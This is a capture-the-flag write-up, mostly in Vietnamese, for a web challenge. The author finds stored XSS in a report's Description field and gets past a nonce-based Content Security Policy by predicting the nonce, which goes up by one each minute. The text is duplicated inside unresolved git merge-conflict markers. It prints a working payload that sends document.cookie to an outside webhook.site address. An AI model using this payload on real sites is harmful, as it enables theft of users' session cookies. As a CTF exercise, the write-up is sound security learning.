





<<<<<<< HEAD
Description
Our team is highly proficient in resolving a wide range of issues.

Whatever challenge you may be facing, simply present it to us, and we'll promptly provide a solution, and our employees get a cookie.


Challenge cung cấp cho tôi một trang report admin 





Yeah mình đoán ngay được chúng ta có thể thực thi XSS ngay tại phần Description




Mình thử XSS xem nào nhưng có vẻ nó không hoạt động


Có vẻ như nó đã sử dụng CSP để chặn chúng ta thực thi XSS bằng cách sử dụng *nonce*  
**The 'nonce-value' token (keyword) (second notation 'nonce-<base64-value>') allows only trusted inline scripts and inline styles controlled by the protected page. Therefore, using it is a safer alternative 'unsafe-inline', which opens to execution any inline scripts and styles indiscriminately.**
Vì vậy chúng ta nhập đoạn script chứa nonce đúng với trang web nonce trang web cung cấp








Và mình nhận ra là mỗi phút nó sẽ tăng giá trị nonce lên 1 vậy chúng ta dễ dàng đoán được giá trị nonce tiếp theo và thực thi XSS thôi


```<script type="text/javascript" nonce="28088862">
document.location="	https://webhook.site/d04b07cc-67cc-487f-ab4f-731e51a013d2/?flag="+document.cookie;
</script>
```


Và boom we get the flag



=======
Description
Our team is highly proficient in resolving a wide range of issues.

Whatever challenge you may be facing, simply present it to us, and we'll promptly provide a solution, and our employees get a cookie.


Challenge cung cấp cho tôi một trang report admin 


Yeah mình đoán ngay được chúng ta có thể thực thi XSS ngay tại phần Description


Mình thử XSS xem nào nhưng có vẻ nó không hoạt động


Có vẻ như nó đã sử dụng CSP để chặn chúng ta thực thi XSS bằng cách sử dụng *nonce*  
**The 'nonce-value' token (keyword) (second notation 'nonce-<base64-value>') allows only trusted inline scripts and inline styles controlled by the protected page. Therefore, using it is a safer alternative 'unsafe-inline', which opens to execution any inline scripts and styles indiscriminately.**
Vì vậy chúng ta nhập đoạn script chứa nonce đúng với trang web nonce trang web cung cấp


Và mình nhận ra là mỗi phút nó sẽ tăng giá trị nonce lên 1 vậy chúng ta dễ dàng đoán được giá trị nonce tiếp theo và thực thi XSS thôi


```<script type="text/javascript" nonce="28088862">
document.location="	https://webhook.site/d04b07cc-67cc-487f-ab4f-731e51a013d2/?flag="+document.cookie;
</script>
```


Và boom we get the flag


>>>>>>> 7537baaa6b0ee606b1959230b1fa3812bd3ded8e
